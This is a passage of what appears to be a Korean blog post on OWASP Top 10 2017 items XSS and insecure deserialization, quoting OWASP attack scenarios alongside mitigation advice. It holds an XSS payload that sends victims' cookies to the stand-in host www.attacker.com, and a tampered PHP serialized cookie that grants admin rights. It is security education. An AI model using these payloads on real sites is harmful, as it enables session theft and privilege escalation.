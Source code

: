XSS 취약점은 애플리케이션이 올바른 유효성 검사 또는 필터링 처리 없이 새 웹 페이지에 신뢰할 수 없는 데이터를 포함하거나, 자바스크립트와 HTML을 생성하는 브라우저 API를 활용한 사용자 제공 데이터로 기존 웹 페이지를 업데이트할 때 발생합니다. XSS는 피해자의 브라우저에서 공격자에 의해 스크립트를 실행시켜 사용자 세션을 탈취할 수 있게 만들고, 웹 사이트를 변조시키고, 악성 사이트로 리다이렉션할 수 있도록 허용합니다.

실제로 쉽게 이해해본다면 사용자 입력을 문법에 맞춘 스크립트를 넣어 사용자 화면에서 스크립트를 동작시키는 것이 크로스 사이트 스크립트 핵심입니다. 

**공격 시나리오 예제**

    시나리오 #1: 이 애플리케이션은 유효성 검사 또는 필터링
    처리없이 다음의 HTML 조각의 구성 내 신뢰할 수 없는 데이터를
    사용합니다:
    
    (String) page += "<input name='creditcard' type='TEXT'
    value='" + request.getParameter("CC") + "'>";
    
    공격자는 브라우저 내에서 다음과 같이 ‘CC’ 파라미터를
    조작합니다:
    
    '><script>document.location=
    'http://www.attacker.com/cgi-bin/cookie.cgi?
    foo='+document.cookie</script>'.
    
    이 공격으로 인해 피해자의 세션 ID가 공격자의 웹 사이트로
    전송되어 공격자가 사용자의 현재 세션을 가로챌 수 있습니다.
    주: 공격자는 XSS를 사용하여 애플리케이션이 사용할 수 있는
    자동화된 크로스 사이트 요청 변조(CSRF) 방어를 무력화할 수
    있습니다.

사용자 화면에서 스크립트가 동작하게 되면 대량 참사가 벌어지긴 하지만 순위가 7위까지 떨어진 이유는 최근 각종 프레임워크나 라이브러리 등에서 자동적으로 막아주는 기능이 있어서겠네요. 

스크립트 삽입을 위한 특수문자를 자동으로 치환해주기 때문이죠. 프레임워크 라이브러리가 없다면 저런 특수문자들을 치환해주는 기능들을 꼭 넣어주어야 합니다. xssfilter 와 같은 검색을 해보면 다수 나오니까 쉽게 참고하실수 있습니다. 

* * *

### **8\. A8:2017 - 안전하지 않은 직렬화()**

안전하지 않은 역직렬화는 종종 원격 코드 실행으로 이어집니다. 역직렬화 취약점이 원격 코드 실행 결과를 가져오지 않더라도 이는 권한 상승 공격, 주입 공격과 재생 공격을 포함한 다양한 공격 수행에 사용될 수 있습니다.

직렬화는 객체 정보를 쿠키나 파일 등으로 정보를 일관성있게 저장, 전송하기 위한 수단으로 생각하면 될 것 같습니다. 여기서 직렬화 하고 역 직렬화 할 때 정보에 대한 변경, 위변조가 가능한 경우 치명적인 문제가 발생할 수 있습니다. 

    시나리오 #2: PHP 포럼은 PHP 객체 직렬화를 사용하여 사용자의 사용자
    ID, 역할, 암호, 해시 및 기타 상태를 포함하는 “super“ 쿠키를
    저장합니다:
    
    a:4:{i:0;i:132;i:1;s:7:"Mallory";i:2;s:4:"user";
    i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}
    
    공격자는 직렬화된 객체를 변경하여 관리자 권한을 부여합니다:
    
    a:4:{i:0;i:1;i:1;s:5:"Alice";i:2;s:5:"admin";
    i:3;s:32:"b6a8b3bea87fe0e05022f8f3c88bc960";}

여기서 보안 대책은 디지털 서명과 같은 무결성 검사를 구현, 엄격한 제약 조건 구현, 모니터링, 지속적 반복 시 경고 등이 있겠습니다. 

* * *
